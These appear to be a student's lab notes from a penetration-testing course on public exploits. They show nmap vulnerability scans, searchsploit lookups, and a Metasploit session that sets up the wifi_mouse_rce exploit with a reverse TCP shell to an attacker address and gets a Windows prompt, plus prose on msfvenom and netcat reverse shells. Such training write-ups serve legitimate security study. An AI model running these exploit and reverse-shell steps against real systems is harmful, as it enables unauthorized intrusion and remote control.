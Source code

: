 3rd phase (After Information gathering then enumeration)

Exploit Databse from Offsec
Patcket Storm
Github
Metasploit
Core Impact
Searchsploit
Nmap NSE Scripts


nmap --script vuln 192.168.1.100


### Exercise: PublicExploits01

**START WITH ENUMERATION**
┌──(hollacosta㉿kali1)-[~]
└─$ sudo nmap -T5 --top-ports=1000 -sS -O 192.168.196.10 
[sudo] password for hollacosta: 
Warning: File ./nmap-os-db exists, but Nmap is using /usr/bin/../share/nmap/nmap-os-db for security and consistency reasons.  set NMAPDIR=. to give priority to files in your local directory (may affect the other data files too).
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 18:50 EDT
Nmap scan report for 192.168.196.10
Host is up (0.024s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 11|10 (88%), FreeBSD 6.X (86%)
OS CPE: cpe:/o:freebsd:freebsd:6.2 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows 11 21H2 (88%), FreeBSD 6.2-RELEASE (86%), Microsoft Windows 10 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.27 seconds

**FOLLOW BY SEARCH OF VULNERABILITIES**

nmap --script vuln -A -0 -sV 192.168.196.10

┌──(hollacosta㉿kali1)-[~]
└─$ sudo nmap --script vuln -A -O -sV 192.168.196.10                         1 ⨯
Warning: File ./nmap-os-db exists, but Nmap is using /usr/bin/../share/nmap/nmap-os-db for security and consistency reasons.  set NMAPDIR=. to give priority to files in your local directory (may affect the other data files too).
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 18:53 EDT
Nmap scan report for 192.168.196.10
Host is up (0.024s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
#####

Network Distance: 4 hops
Service Info: Host: REMOTEMOUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
| smb-vuln-ms08-067: 
**|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067) ------------THIS IS USEFUL INFORMATION
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250**   ------------THIS IS WHAT I LOOK FOR


**I LOOK FOR THE EXPLOIT USING MS08-067 AS MY KEYWORD**
┌──(hollacosta㉿kali1)-[~]
└─$ searchsploit MS08-067                           
----------------------------------------------- ---------------------------------
 Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
Microsoft Windows - 'NetAPI32.dll' Code Execut | windows/remote/40279.py
Microsoft Windows Server - Code Execution (MS0 | windows/remote/7104.c
Microsoft Windows Server - Code Execution (PoC | windows/dos/6824.txt
Microsoft Windows Server - Service Relative Pa | windows/remote/16362.rb
Microsoft Windows Server - Universal Code Exec | windows/remote/6841.txt
Microsoft Windows Server 2000/2003 - Code Exec | windows/remote/7132.py
----------------------------------------------- ---------------------------------

SWITCHED DIRECTORIES FOR A BETTER VIEW

┌──(hollacosta㉿kali1)-[/usr/…/exploitdb/exploits/windows/remote]

![[Pasted image 20231012041848.png]]
![[Pasted image 20231012191642.png]]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > search 50972



   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  exploit/windows/misc/wifi_mouse_rce  2021-02-25       normal  No     Wifi Mouse RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/misc/wifi_mouse_rce

**msf6 > use exploit /windows/misc/wifi_mouse_rce**
Using configured payload windows/shell/reverse_tcp



   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  exploit/windows/misc/wifi_mouse_rce  2021-02-25       normal  No     Wifi Mouse RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/misc/wifi_mouse_rce

 Using exploit/windows/misc/wifi_mouse_rce
msf6 exploit(windows/misc/wifi_mouse_rce) > options

Module options (exploit/windows/misc/wifi_mouse_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   LINEMAX  1020             yes       Maximum length of lines to send for stager method.  Smaller for more unstable connections.
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    1978             yes       Port WiFi Mouse Mouse Server runs on (TCP)
   SLEEP    1                yes       How long to sleep between commands
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addr
                                       esses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   stager



View the full module info with the info, or info -d command.

msf6 exploit(windows/misc/wifi_mouse_rce) > set RHOSTS 192.168.217.10
RHOSTS => 192.168.217.10
msf6 exploit(windows/misc/wifi_mouse_rce) > set LHOST 192.168.45.181
LHOST => 192.168.45.181
msf6 exploit(windows/misc/wifi_mouse_rce) > run

          ########################

C:\Windows\system32>


### Exercise: PublicExploit02
![[Pasted image 20231012195414.png]]

![[Pasted image 20231012195728.png]]

![[Pasted image 20231012205006.png]]
using Searchsploit, found that 50512 was a RCE
![[Pasted image 20231012205057.png]]
copy it and ran it against the target
![[Pasted image 20231012205154.png]]
tried a revshell.com payload and notice something in my nc
![[Pasted image 20231012205326.png]]
check msfvenom to see what payloads I can create
use msfvenom -l payloads, but since there are too many, narrow it according to machine type. for this one, is msfvenom -l payloads | grep "cmd/unix*" 
![[Pasted image 20231012205702.png]]

![[Pasted image 20231012205940.png]]
once payload created,
use it to see results
![[Pasted image 20231012210052.png]]
upgrade the shell then find the flag

![[Pasted image 20231012210137.png]]